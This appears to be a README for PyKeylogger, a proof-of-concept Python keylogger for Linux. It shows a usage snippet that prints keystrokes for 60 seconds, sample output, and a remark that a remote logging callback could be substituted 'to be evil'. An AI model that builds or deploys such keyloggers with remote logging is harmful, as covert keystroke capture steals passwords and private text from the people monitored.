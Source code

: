 PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print "%.2f   %r   %r" % (t, keys, modifiers)

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:


    1314238675.42   ['o']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.51   ['m']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.65   ['g']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
